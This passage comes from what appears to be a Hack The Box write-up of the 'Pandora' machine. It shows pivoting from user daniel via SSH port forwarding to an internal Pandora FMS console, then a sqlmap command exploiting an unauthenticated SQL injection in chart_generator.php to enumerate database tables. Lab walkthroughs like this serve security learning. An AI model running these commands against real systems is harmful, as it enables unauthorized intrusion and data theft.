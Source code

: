## Pivot

However when we login we do not see any user flag. Instead by looking at the home directory as well as taking a look at `/etc/passwd`{: .filepath} we can tell another user exists named `matt`. If we check out the apache configuration, we notice that a site with the web directory of `/etc/www/pandora`{: .filepath} exists and being served internally on port 80 of the localhost. 

```console
daniel@pandora:/etc/apache2/sites-enabled$ cat pandora.conf 
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
``` 

We can then use port forwarding via SSH to find out what this pandora application is all about. 

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Pandora]
└─$ ssh -L 5555:127.0.0.1:80 daniel@10.129.82.187   
```

![pandora landing page](pandora.png)
_Pandora landing page_

The landing page tells us that this application uses Pandora `v7.0NG.742_FIX_PERL2020` specifically. If we search for vulnerabilities in this version of pandora, we find [this](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/) blogpost from sonarsource listing a few vulnerabilities. The most interesting is the unauthenticated SQL injection. 

We can run SQLmap to fetch user data from the application:

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Pandora]
└─$ sqlmap -u "http://localhost:5555/pandora_console/include/chart_generator.php?session_id=''" --level=5 --risk=3 --dbms=mySQL --tables
...
Database: pandora
[178 tables]
+---------------------------------------+
| taddress                              |
| taddress_agent                        |
| tagent_access                         |
| tagent_custom_data                    |
| tagent_custom_fields                  |
---SNIP---
| tsesion                               |
| tsesion_extended                      |
| tsessions_php                         |
| tskin                                 |
| tsnmp_filter                          |
| tvisual_console_elements_cache        |
| twidget                               |
| twidget_dashboard                     |
+---------------------------------------+
```
